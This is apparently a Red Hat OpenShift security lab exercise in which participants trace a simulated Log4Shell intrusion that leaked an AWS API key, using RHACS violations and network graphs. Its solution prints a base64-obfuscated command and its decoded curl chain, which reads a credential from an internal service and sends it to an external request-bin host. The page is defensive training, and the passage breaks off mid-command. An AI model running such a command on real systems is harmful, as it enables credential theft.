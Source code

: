 ```yaml
---
title: "Attack Flow Analysis"
draft: false
weight: 3
---
```


It’s December 19, 2021 (yes, you read that right, two years earlier, to the day).

The AWS Cloud Team is alerting you that an AWS API key has been compromised and used to deploy crypto mining software.
Fortunately, your company prohibits the reuse of API keys for several uses: you are therefore certain of the origin of this data leak: it is the **visa-processor** application which uses this key. API.

```
$ oc rsh -n data-theft deploy/visa-processor /bin/sh -c 'env' | fate | grep ^A
APP_ID=visa-processor
APP_ROOT=/opt/app-root
AWS_ACCESS_KEY_ID=Easy, peasy!
AWS_SECRET_ACCESS_KEY=Catch me if you can!
```

**Note**: AWS API keys were redacted in the lab to avoid an unnecessary heart attack for **Red Hat** security teams. They were replaced by two humorous messages. :)

At the same time, the network team warns you of the presence of an unusual outgoing flow destined for servers also hosted on AWS.

```
$ dig +short public.requestbin.com
54.192.137.16
54.192.137.101
54.192.137.26
54.192.137.85
```

```
$ whois 18.155.129.83 |grep OrgTechName
OrgTechName: Amazon EC2 Network Operations
```

Your mission, if you accept it, is to investigate the Lab environment in search of the path taken by the attacker to perpetrate this data exfiltration.
The objective is achieved when you find the URL of the **Request Bin** used by the attacker to exfiltrate the API key.

![Request Bin showing exfiltrated AWS API key](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-Request-Bin.png)

Up to you !

Clues:

- Start with the **Violations** section and filter the view with `deployment:visa-processor namespace:data-theft`
- Switch to the **Network Graph** section and display the flows of the cluster **local-cluster**, namespace **data-theft**. Click on the **information-service** and **back-office** deployments and compare their flows. Which one seems most suspicious to you?
- Return to the **Violations** section and filter the view with the name of the deployment that seems most suspicious to you.

{{%expand "Solution" %}}

Navigate to the **Violations** section and filter the view with `deployment:visa-processor namespace:data-theft`.

![visa-processor violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-visa-processor-violations.png)

We note the presence of CVE but nothing very suspicious.

Switch to the **Network Graph** section and view the flows from the cluster **local-cluster**, namespace **data-theft**.

Click on the **back office** deployment.

![back-office network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-back-office-network-graph.png)

The observed flows appear legitimate.

Click on the **information-service** deployment.

![information-service network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-network-graph.png)

Observe the inbound flow from the OpenShift router and the outbound flow to AWS.
Also note that the **information-service** deployment communicates with the **visa-processor** deployment.

Navigate to the **Violations** section and filter the view with `deployment:information-service namespace:data-theft`.

![information-services violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violations.png)

Note the presence of the **Log4Shell** vulnerability as well as suspicious behavior at runtime: **Shell Spawned by Java Application**.

Click on the **Shell spawned by Java Application** violation.

![information-services violation Shell Spawned by Java Application](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violation-shell-spawned.png)

Observe the command executed:

```
echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5 IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d | sh
```

Decode base64 encoded content (use the "base64 -d" command):

```
$ echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR 5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d

curl -sk -d '{\"numberOfIdentities\":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity | curl -sk --data-binary @- -H 'Content-Type: text/plain' https://enyd1rw3pwz3a.x.pipedream.net
```

The first **curl** command exploits an application bug to retrieve the AWS API key.

Normally, the **visa-processor** component returns the value of its **APP_ID** environment variable:

```
$ curl -sk -X POST http://vis